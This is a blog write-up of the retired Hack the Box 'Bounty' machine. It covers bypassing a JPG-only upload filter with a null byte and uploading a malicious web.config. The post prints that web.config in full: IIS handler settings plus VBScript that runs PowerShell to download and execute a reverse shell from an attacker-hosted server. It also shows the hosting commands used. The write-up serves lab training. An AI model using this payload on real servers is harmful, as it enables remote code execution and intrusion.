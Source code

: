 ```yaml
---
layout: post
title:  "Using web.config to Bypass File Upload Restrictions"
author: nanobyte
date:   2021-09-13
description: How to leverage web.config for bypassing a file upload restriction
tags: PowerShell HTB_Walkthrough BypassUploadRestriction
---
```


<h3>Bypassing Upload Restrictions</h3>

The following attack was identified during Hack the Box's retired Bounty machine. In that vulnerable machine, there was access to a file upload. The goal was to achieve remote code execution from the file upload functionality. The application only took JPG extensions, all other file extensions were blocked. This restriction could be defeated by adding a null byte and the JPG extension at the end of a malicious filename.

To begin the attack, first use Burp Suite and enable intercept. Once ready, upload a file, in this scenario Kali Linux's cmdasp.aspx is being uploaded:

<center><img src="/images/posts/webconfig-writeup/image_1.png" alt="upload-file"></center>

Once intercepted, we can add our null byte after our ASPX extension, and then the required JPG extension:

<center><img src="/images/posts/webconfig-writeup/image_2.png" alt="burp-suite-intercept"></center>

If we were to send this to the server, we will see a successful file upload:

<center><img src="/images/posts/webconfig-writeup/image-3.png" alt="file-upload-success"></center>

However, if we navigate to this file, we would receive the following error:

<center><img src="/images/posts/webconfig-writeup/image-4.png" alt="file-load-error"></center>

With the presence of web.config present, and the ability to bypass file upload restrictions discovered, we can create a malicious web.config, and upload a version that is useful to us, as attackers.

<h3>Malicious web.config</h3>

We can create our own malicious web.config file, which contains a PowerShell command to download a reverse shell hosted on a web server:

{% highlight bash linenos %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')")
%>
{% endhighlight %}

Before you upload this file to the server, make sure that you host a PowerShell reverse shell hosted on your local machine. Here are some great PowerShell options available from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" target="_blank">PayloadAllTheThings</a>.

Once a PowerShell reverse shell is saved on your local machine, you must setup a web server to host this file. I generally usen a Python SimpleHTTPServer. This can be quickly setup with the following command, from the directory your reverse shell is saved in:

{% highlight bash linenos %}
python -m SimpleHTTPServer 80
{% endhighlight %}

Once the above is setup and ready to go, you can then upload the malicious web.config file. You must perform the same bypass restriction, adding the required null byte and JPG extension. Once on the server, open a NetCat listener, and open the web.config file on the web server. Completing the above, a reverse connection was received:

<center><img src="/images/posts/webconfig-writeup/image-5.png" alt="burp-suite-intercept"></center>

